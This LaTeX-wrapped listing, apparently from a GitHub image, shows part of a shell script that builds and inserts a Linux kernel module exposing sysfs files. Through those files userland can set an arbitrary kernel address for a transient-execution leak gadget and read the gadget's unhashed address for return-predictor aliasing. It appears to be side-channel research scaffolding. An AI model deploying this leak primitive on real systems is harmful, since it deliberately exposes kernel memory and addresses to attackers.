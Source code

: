\documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
// Sets the virtual address inside the kernel to leak from
// The gadget will read 1 byte from this address transiently
static ssize_t leak_va_store(struct kobject *kobj, struct kobj_attribute *attr,
                             const char *buf, size_t count)
{
    unsigned long tmp;
    kstrtoul(buf, 0, &tmp);
    leak_source_va = (void *)tmp;
    return count;
}

// Returns the virtual address of pbinc_dc_gadget()
// Userland uses this to match low bits for return predictor aliasing
static ssize_t gaddr_show(struct kobject *kobj, struct kobj_attribute *attr, char *buf)
{
    return sprintf(buf, "%px\\n", pbinc_dc_gadget);
}

// Each entry connects a sysfs file to a store/show function
static struct kobj_attribute attr_probe_pa = __ATTR(probe, 0200, NULL, probe_pa_store);
static struct kobj_attribute attr_leak_va  = __ATTR(leak,  0200, NULL, leak_va_store);
static struct kobj_attribute attr_gaddr    = __ATTR(gaddr, 0444, gaddr_show, NULL);

// Group of sysfs attributes under /sys/kernel/pbinc/
static struct attribute *attrs[] = {
    &attr_probe_pa.attr,
    &attr_leak_va.attr,
    &attr_gaddr.attr,
    NULL,
};

// Module cleanup: unmap shared memory and remove sysfs files
static const struct attribute_group attr_group = {
    .attrs = attrs,
};

static struct kobject *kobj;

static int __init pbinc_init(void)
{
    kobj = kobject_create_and_add("pbinc", kernel_kobj);
    return sysfs_create_group(kobj, &attr_group);
}

static void __exit pbinc_exit(void)
{
    if (probe_kva) iounmap(probe_kva);
    kobject_put(kobj);
}

module_init(pbinc_init);
module_exit(pbinc_exit);
MODULE_LICENSE("GPL");
EOF

cat > "${KMOD_DIR}/Makefile" <<'EOF'
obj-m += pbinc_gadget.o
all:   ; $(MAKE) -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean: ; $(MAKE) -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
EOF

info "Building & loading kernel module"
( cd "${KMOD_DIR}" && $MAKE -j )
sudo_or insmod "${KMOD_DIR}/pbinc_gadget.ko" || { sudo_or rmmod pbinc_gadget 2>/dev/null || true; sudo_or insmod "${KMOD_DIR}/pbinc_gadget.ko"; }
ls -l /sys/kernel/pbinc/{probe,gaddr}

################################# user sources


\end{lstlisting}
\end{document}
